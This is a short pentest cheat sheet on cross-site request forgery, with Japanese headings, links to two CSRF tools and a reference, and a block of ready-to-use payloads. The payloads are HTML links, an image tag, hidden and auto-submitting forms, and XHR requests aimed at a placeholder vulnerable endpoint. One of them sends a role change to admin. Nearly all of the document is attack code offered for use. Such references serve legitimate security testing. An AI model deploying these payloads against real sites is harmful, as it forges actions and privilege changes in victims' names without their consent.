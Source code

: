 
# # Tools
- https://github.com/0xInfection/XSRFProbe
- https://github.com/0xInfection/CSRFPocGenerator.git

# # 簡単な攻撃
```payload
# HTML GET
<a href=”http://vulnerable/endpoint?parameter=CSRFd">Click</a>

# HTML GET (no interaction)
<img src=”http://vulnerable/endpoint?parameter=CSRFd">

# HTML POST:
<form action="http://vulnerable/endpoint" method="POST">
<input name="parameter" type="hidden" value="CSRFd" />
<input type="submit" value="Submit Request" />
</form>

# HTML POST (no interaction)
<form id="autosubmit" action="http://vulnerable/endpoint" method="POST">
<input name="parameter" type="hidden" value="CSRFd" />
<input type="submit" value="Submit Request" />
</form>
<script>
document.getElementById("autosubmit").submit();
</script>

# JSON GET:
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://vulnerable/endpoint");
xhr.send();
</script>

# JSON POST
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://vulnerable/endpoint");
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.send('{"role":admin}');
</script>
```

# # 参考文献
- https://github.com/six2dez/pentest-book/blob/master/enumeration/web/csrf.md